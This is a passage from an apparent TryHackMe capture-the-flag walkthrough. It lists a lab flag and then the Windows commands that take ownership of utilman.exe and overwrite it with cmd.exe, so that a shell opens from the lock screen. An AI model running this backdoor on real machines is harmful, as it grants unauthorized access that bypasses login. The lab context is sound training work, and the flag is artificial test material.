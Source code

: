 * Insert flag15 here

    `THM{THE_LOGIN_SCREEN_IS_MERELY_A_SUGGESTION}`

    * Setup Utilman to execute `cmd.exe`

        ```
        takeown /f c:\Windows\System32\utilman.exe
        icacls C:\Windows\System32\utilman.exe /grant Administrator:F
        copy c:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe
        ```

        ![task7-set-utilman](./images/task7-set-utilman.png)

    * Lock our session from the start menu
